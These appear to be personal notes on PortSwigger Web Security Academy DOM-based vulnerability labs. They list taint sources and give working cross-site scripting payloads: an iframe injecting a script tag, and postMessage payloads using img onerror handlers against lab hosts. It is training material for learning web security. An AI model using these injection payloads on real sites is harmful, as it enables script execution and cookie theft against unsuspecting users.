 ## Common sources

The following are typical sources that can be used to exploit a variety of taint-flow vulnerabilities:
'''
document.URL
document.documentURI
document.URLUnencoded
document.baseURI
location
document.cookie
document.referrer
window.name
history.pushState
history.replaceState
localStorage
sessionStorage
IndexedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB)
Database
'''

## LAB 1
- <iframe src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">
- https://portswigger.net/web-security/dom-based/cookie-manipulation/lab-dom-cookie-manipulation

## Lab 2
- I saw the following in html code
```
                     <div id='ads'>
                    </div>
                    <script>
                        window.addEventListener('message', function(e) {
                            document.getElementById('ads').innerHTML = e.data;
                        })
                    </script>
```
- After googling I found that
```
window.postMessage('<img src=1 href=1 onerror="javascript:alert(1)"></img>', 'https://0ac90071041154dd804285ae00110042.web-security-academy.net/');
```
 - send a message, and the event listener would see and append it.
- The following iframe sent message to parent url.
```
"<iframe src="https://0ac90071041154dd804285ae00110042.web-security-academy.net/" width="100%" height="100%"  onload="this.contentWindow.postMessage('<img src=1 href=1 onerror=print()></img>', '*')">"

```
